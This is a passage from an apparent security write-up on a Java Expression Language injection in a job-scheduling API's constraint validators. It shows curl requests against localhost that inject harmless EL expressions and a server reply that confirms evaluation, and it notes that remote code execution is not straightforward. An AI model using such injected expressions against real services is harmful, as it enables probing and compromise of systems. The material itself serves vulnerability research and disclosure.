 The sink follows the [deffered evaluation syntax](https://docs.oracle.com/cd/E19798-01/821-1841/bnahr/index.html). Sending a non-exploitative PoC Java EL (`#{7+7}`) which is expected to be evaluated if the tainted path is followed:
```
curl localhost:7001/api/v3/jobs \                                                                                                                                                 master!?
  -X POST -H "Content-type: application/json" -d \
  '{
    "applicationName": "localtest",
    "owner": {"teamEmail": "me@me.com"},
    "container": {
      "image": {"name": "alpine", "tag": "latest"},
      "entryPoint": ["/bin/sleep", "1h"],
      "securityProfile": {"iamRole": "test-role", "securityGroups": ["sg-test"]},
      "softConstraints": {"constraints": {"#{7+7}":"True"}}
    },
    "batch": {
      "size": 1,
      "runtimeLimitSec": "3600",
      "retryPolicy":{"delayed": {"delayMs": "1000", "retries": 3}}
    }
  }'
```
This gives the response (`14`) confirming the vulnerability:
```
{"statusCode":400,"message":"Invalid Argument: {Validation failed: 'field: 'container.softConstraints', description: 'Unrecognized constraints [14]', type: 'HARD''}"}
```

This proves that the vulnerability exists. However this is not an RCE. Getting an RCE is not straightforward for this vulnerability.

There are two sinks, corresponding to the two issues that the final query reported, for the same sources: one in SchedulingConstraintValidator.java and another in SchedulingConstraintSetValidator.java. 

#### SchedulingConstraintValidator.java (lowercase Java EL)

Unfortunately, the tainted data (Java EL expression) gets converted into lower case in SchedulingConstraintValidator.java before it gets evaluated. The malicious Java EL expression therefore should remain valid after this lowercase conversion otherwise an Exception is thrown.

For example: #{"abc".charAt(1)} would get converted to #{'abc'.charat(1)} and since `charat` is not a valid string function an exception would be thrown. This can be verified by running:
```
curl localhost:7001/api/v3/jobs \                                                                                                                                                 master!?
  -X POST -H "Content-type: application/json" -d \
  '{
    "applicationName": "localtest",
    "owner": {"teamEmail": "me@me.com"},
    "container": {
      "image": {"name": "alpine", "tag": "latest"},
      "entryPoint": ["/bin/sleep", "1h"],
      "securityProfile": {"iamRole": "test-role", "securityGroups": ["sg-test"]},
      "softConstraints": {"constraints": {"#{\"abc\".charAt(1)}":"True"}}
    },
    "batch": {
      "size": 1,
      "runtimeLimitSec": "3600",
      "retryPolicy":{"delayed": {"delayMs": "1000", "retries": 3}}
    }
  }'

```
which gives the response:
```
```